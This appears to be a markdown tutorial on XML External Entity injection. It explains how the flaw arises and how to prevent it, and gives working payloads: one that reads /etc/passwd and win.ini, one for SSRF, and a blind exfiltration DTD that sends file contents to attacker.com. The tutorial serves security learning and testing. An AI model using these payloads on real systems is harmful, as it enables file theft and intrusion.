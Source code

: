 # XML External Entity (XXE) Injection

XML External Entity (XXE) injection is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server's filesystem, and to interact with any backend or external systems that the application itself can access.

## How it Occurs

XXE vulnerabilities arise because the XML specification contains a feature called "external entities," which are a type of custom XML entity whose definition is located outside of the DTD where they are declared. If an application accepts XML input and parses it without disabling external entity resolution, it can be vulnerable to XXE.

### Example

Consider a web application that accepts XML data from the user:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>123</productId>
</stockCheck>
```

An attacker can modify the XML to include an external entity that points to a local file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

When the application parses this XML, it will replace `&xxe;` with the content of the `/etc/passwd` file. If the application then displays the product ID in its response, the attacker will be able to see the contents of the file.

## Common Payloads

### Retrieving Files

*   **Linux:** `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
*   **Windows:** `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>`

### SSRF via XXE

XXE can be used to perform Server-Side Request Forgery (SSRF) attacks.

*   `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.service/endpoint"> ]>`

### Blind XXE

In some cases, the application does not return the results of the XXE attack in its response. This is known as blind XXE. An attacker can use out-of-band techniques to exfiltrate data.

*   **Exfiltrating data via a DTD:**
    1.  The attacker hosts a malicious DTD on a server they control.
    2.  The attacker sends an XXE payload that references the malicious DTD.
    3.  The application requests the malicious DTD.
    4.  The malicious DTD contains an entity that exfiltrates data from the vulnerable server.

    **Malicious DTD (e.g., `http://attacker.com/malicious.dtd`):**
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;
    ```

    **XXE Payload:**
    ```xml
    <?xml version="1.0" ?>
    <!DOCTYPE foo [
        <!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd">
        %xxe;
    ]>
    <foo></foo>
    ```

## Finding XXE Vulnerabilities

*   Look for any functionality that accepts XML data. This can be in the body of a POST request, or in a file upload.
*   Check if the application is parsing XML. You can often tell by looking at the `Content-Type` header of the request (e.g., `application/xml`, `text/xml`).
*   Try sending a simple XXE payload to see if the application is vulnerable.

## Preventing XXE

The safest way to prevent XXE is to disable DTDs (Document Type Definitions) and external entities completely. This can usually be done in the configuration of the XML parser. If it is not possible to disable DTDs completely, then external entities and external DTDs should be disabled.

## Cheatsheet
https://cheatsheet.haax.fr/web-pentest/files-and-files-inclusions/xxe/
